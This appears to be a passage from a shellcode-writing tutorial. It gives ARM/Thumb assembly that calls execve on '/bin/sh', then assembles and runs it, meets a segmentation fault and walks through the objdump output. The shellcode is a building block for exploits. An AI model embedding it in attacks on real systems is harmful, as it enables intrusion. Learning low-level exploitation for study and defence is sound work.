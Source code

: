     .text
    .global _start

    _start:
            add r1, pc, #1
            bx r1

    .code 16
            add r0, pc, #12
            eor r1, r1, r1
            eor r2, r2, r2
            mov r7, #11
            svc #1
            nop

    _string:
    .asciz  "/bin/sh"

Let's try it.

    $ as shell.s -o shell.o
    $ ld shell.o -o shell
    $ ./shell
    Segmentation fault

Okay, what does the object dump look like?

    $ objdump -d shell.o

    Disassembly of section .text:

    00000000 <_start>:
       0:   e28f1001        add     r1, pc, #1
       4:   e12fff11        bx      r1
       8:   a003            add     r0, pc, #12     ; (adr r0, 18 <_string+0x6>)
       a:   4049            eors    r1, r1
       c:   4052            eors    r2, r2
       e:   270b            movs    r7, #11
      10:   df01            svc     1

    00000012 <_string>:
      12:   622f            .short  0x622f
      14:   732f6e69        .word   0x732f6e69
      18:   0068            .short  0x0068
      1a:   46c0            nop                     ; (mov r8, r8)


So first off objdump is trying to be helpful interpreting our **_string** data as instructions and we can just ignore that.

I am referring to this stuff.

       .short  0x622f
       .word   0x732f6e69
       .short  0x0068
       nop                     ; (mov r8, r8)

The compiler also stuck a **nop** instruction at the end to 4-byte align the code.
